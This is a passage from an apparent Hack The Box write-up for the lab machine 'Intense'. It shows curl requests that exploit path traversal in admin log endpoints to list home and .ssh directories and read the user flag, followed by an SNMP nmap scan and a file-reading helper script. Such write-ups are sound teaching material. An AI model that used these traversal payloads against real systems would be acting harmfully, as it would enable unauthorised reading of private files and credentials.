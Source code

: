 Seems like we only have 2 users: `user` and `root`. Let us try to read the `/home/user` directory.

```bash
root@darkness:~# curl http://10.10.10.195/admin/log/dir -X POST -d 'logdir=../../../../../home/user/' -b 'ADMINCOOKIE'
['.ssh', '.cache', '.profile', 'note_server', '.gnupg', '.bashrc', '.viminfo', '.bash_history', '.bash_logout', '.sudo_as_admin_successful', 'user.txt', 'note_server.c', '.selected_editor']
```

Let us read the `.ssh` directory.

```bash
root@darkness:~# curl http://10.10.10.195/admin/log/dir -X POST -d 'logdir=../../../../../home/user/.ssh/' -b 'ADMINCOOKIE'
['authorized_keys']
```

Seems like nothing interesting is in this directory. Let us access user.txt using the LFI, before we continue enumeration to gain a initial shell.

```bash
root@darkness:~# curl http://10.10.10.195/admin/log/view -X POST -d 'logfile=../../../../../home/user/user.txt' -b 'ADMINCOOKIE'
e9dc73***************************
```

## Initial Shell - Exploiting SNMP

This part of the box took me quite a while to figure out, as I only did an TCP nmap scan, which shows SNMP is closed. After talking to a friend, he told me to check SNMP out, so I did. 

```bash
root@darkness:~# nmap -sU -p 161 10.10.10.195
Nmap scan report for 10.10.10.195
Host is up (0.076s latency).

PORT    STATE         SERVICE
161/udp open|filtered snmp
```

The nmap scan shows that SNMP is open, so let us enumerate this service further.

In order to ease the file-read functions, I added them to the [hack.py](https://github.com/chr0x6eos/HTB/blob/master/Intense/hack.py) script, which is available at my [GitHub](https://github.com/chr0x6eos/HTB).

```bash
root@darkness:~# python3 hack.py
[...]
[1] - List dir
[2] - Read file
Option> 1
dir-path> /etc/snmp
[+] Got contents of /etc/snmp:
['snmp.conf', 'snmpd.conf.TMP', 'snmpd.conf', 'snmpd.conf.dpkg-old']
```
